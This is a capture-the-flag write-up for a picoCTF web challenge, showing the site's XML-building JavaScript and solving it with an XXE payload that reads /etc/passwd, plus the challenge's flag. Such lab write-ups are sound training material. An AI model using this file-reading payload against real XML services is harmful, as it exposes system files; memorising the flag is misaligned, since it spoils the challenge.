 ***Flag:***
<br>
picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
<br>
***Approaching the challenge:***: <br>
The site we enter <br>
![{37163FCF-1B6B-457B-8B36-3848D3785DB4}](https://github.com/user-attachments/assets/616a10e3-689e-4ac6-9b7e-03d157cab049)
<br>
XXE was the hint which stands for XML External entity. To solidfy this hint, the source code had 2 more js files which had xml data on it. <br>
DetailsCheckPayload.js
```
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
and 
<br> detailscheck.js
```
document.querySelectorAll('.detailForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkDetails(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkDetails(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```
Hence we conclude that it's XXE. <br>
The source I used basically sent request of the flag with our payload. AI explained how by c reating a custom XXE payload to read a file involves exploiting a vulnerable XML p by injecting an external entity that points to the desired file. Since we need to read the /etc/passwd file it strongly suggested to use this. So I asked AI to write a custom payload(below) on the request and it resulted in the flag.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&file;</ID>
</data>
```

After forwarding I finally found the flag:
<br>
![{36C50246-BA17-4DE1-AB71-BCDB6BB0949B}](https://github.com/user-attachments/assets/681c2dc6-753e-4928-8cde-f9ad1f111f6f)


Source/guide: https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/SOAP/SOAP.md
